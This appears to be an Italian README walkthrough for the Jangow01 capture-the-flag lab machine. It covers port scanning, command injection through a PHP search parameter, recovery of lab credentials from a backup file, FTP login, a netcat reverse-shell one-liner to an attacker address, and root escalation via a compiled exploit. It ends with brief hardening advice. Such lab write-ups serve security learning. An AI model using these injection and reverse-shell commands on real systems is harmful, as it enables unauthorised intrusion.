





# README - Guida alla CTF: Macchina Jangow01

Questa guida spiega passo per passo come completare la CTF sulla macchina Jangow01, partendo dall'accesso iniziale fino all'escalation dei privilegi e al recupero della flag finale.

---

## **Passaggi**

### **1. Ricognizione Iniziale**

1. **Pingare la macchina target** per verificare che sia attiva:
   ```bash
   ping 192.168.56.118
   ```
   

2. **Scansionare le porte con Nmap** per identificare i servizi attivi:
   ```bash
   sudo nmap -sC -sV -O -p- 192.168.56.118
   ```
   
   - Porte trovate aperte:
     - **21/tcp**: FTP (vsftpd 3.0.3)
     - **80/tcp**: HTTP (Apache 2.4.18)

### **2. Enumerazione dei Servizi**

#### HTTP
1. Aprire il browser e visitare `http://192.168.56.118/site`.
   

2. Cercare file o directory interessanti. Notare `busque.php` e utilizzare il parametro `buscar` per eseguire comandi:
   ```bash
   http://192.168.56.118/site/busque.php?buscar=ls
   ```
   

3. Esplorare il filesystem tramite comandi come `pwd` e `ls`. Identificare file sensibili come `.backup`:
   ```bash
   http://192.168.56.118/site/busque.php?buscar=cat /var/www/html/.backup
   ```
   Output:
   ```php
   $servername = "localhost";
   $database = "jangow01";
   $username = "jangow01";
   $password = "abygurL09";
   ```
   

### **3. Accesso Iniziale**

#### FTP
1. Collegarsi al server FTP utilizzando le credenziali trovate:
   ```bash
   ftp 192.168.56.118
   Name: jangow01
   Password: abygurL09
   ```
   

2. Esplorare il server FTP per cercare file utili.

#### Reverse Shell
1. Preparare Netcat per ricevere una connessione:
   ```bash
   nc -lvnp 443
   ```
   

2. Utilizzare il parametro `buscar` per caricare una reverse shell:
   ```bash
   http://192.168.56.118/site/busque.php?buscar=mkfifo /tmp/s; nc 192.168.56.103 443 0</tmp/s | /bin/bash >/tmp/s 2>&1; rm /tmp/s
   ```
   

3. Una volta stabilita la connessione, si otterrà accesso come utente `www-data`.
   

### **4. Escalation dei Privilegi**

1. **Stabilizzare la shell**:
   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   export TERM=xterm
   ```
   

2. **Cambiare utente**:
   Utilizzare la password trovata per accedere come `jangow01`:
   ```bash
   su jangow01
   Password: abygurL09
   ```
   

3. **Escalare i privilegi a root**:
   - Nella directory `/home/jangow01`, trovare ed eseguire il file `gatto.c`:
     ```bash
     gcc gatto.c -o shell2
     ./shell2
     ```
     
   - Verificare di essere root:
     ```bash
     whoami
     root
     ```
     

### **5. Recuperare la Flag Finale**
1. Accedere alla directory `/root`:
   ```bash
   cd /root
   ```
   

2. Leggere il contenuto di `proof.txt`:
   ```bash
   cat proof.txt
   ```
   Output:
   ```
   da39a3ee5e6b4b0d3255bfef95601890afd80709
   ```
   

---

## **Note Importanti**

- Assicurarsi di proteggere file sensibili come `.backup`.
- Aggiornare i servizi e il kernel della macchina per evitare exploit noti.
- Sanitizzare tutti i parametri di input per prevenire vulnerabilità di injection.

Seguendo questa guida passo per passo, è possibile replicare l'intera procedura per completare la CTF sulla macchina Jangow01. Buona fortuna! 🚀

